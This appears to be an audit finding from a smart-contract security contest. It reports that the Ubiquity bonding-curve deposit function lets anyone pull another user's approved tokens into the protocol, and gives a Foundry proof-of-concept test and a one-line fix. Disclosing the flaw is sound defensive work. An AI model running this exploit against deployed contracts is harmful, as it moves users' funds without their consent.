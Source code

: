 Passive Sapphire Panther

high

# Anyone can deposit to protocol tokens of other users without approve

## Summary

**OUT OF SCOPE, Just for team information**

Passing an arbitrary `from` address to transferFrom can lead to loss of funds, because anyone can transfer tokens from the `from` address if an approval for protocol is made.

## Vulnerability Detail

- `User_1` approve token transfer for `Protocol`
- `User_2` can deposit `User_1` token instead of `User_1` without any approval since the protocol is allowed to transfer tokens.

## Impact

Users tokens can be deposited to protocol without their desire

## Code Snippet

`BondingCurveFacet::deposit`  call `LibBondingCurve::deposit`

Code of `BondingCurveFacet::deposit` 
https://github.com/sherlock-audit/2023-12-ubiquity/blob/main/ubiquity-dollar/packages/contracts/src/dollar/facets/BondingCurveFacet.sol#L56-L61


Code of `LibBondingCurve::deposit` 
https://github.com/sherlock-audit/2023-12-ubiquity/blob/main/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibBondingCurve.sol#L133

## Tool used

[Cyfrin/aderyn](https://github.com/Cyfrin/aderyn)

## Proof of Concept
Put this in `BondingCurveFacet.t.sol::ZeroStateBonding`
```javascript
    function testPOC_DepositOthersTokens(uint32 connectorWeight, uint256 baseY) public {
        uint256 collateralDeposited;
        uint256 connWeight;
        connectorWeight = uint32(bound(connWeight, 1, 1000000));
        baseY = bound(baseY, 1, 1000000);
        vm.prank(admin);
        bondingCurveFacet.setParams(connectorWeight, baseY);

        address firstAccount = address(0x1111);

        vm.startPrank(firstAccount); // prank as Account 1
        assertEq(dollarToken.allowance(secondAccount, firstAccount), 0); // Account 1 does not have allowance from Account 2

        vm.expectEmit(true, false, false, true);
        emit Deposit(secondAccount, collateralDeposited);
        bondingCurveFacet.deposit(collateralDeposited, secondAccount); // Account 1 deposit tokens of Account 2
    }
```

## Recommendation

Change `_recipient` to `msg.sender` in `LibBondingCurve::deposit`
```diff
- dollar.transferFrom(_recipient, address(this), _collateralDeposited);
+ dollar.transferFrom(msg.sender, address(this), _collateralDeposited);
```
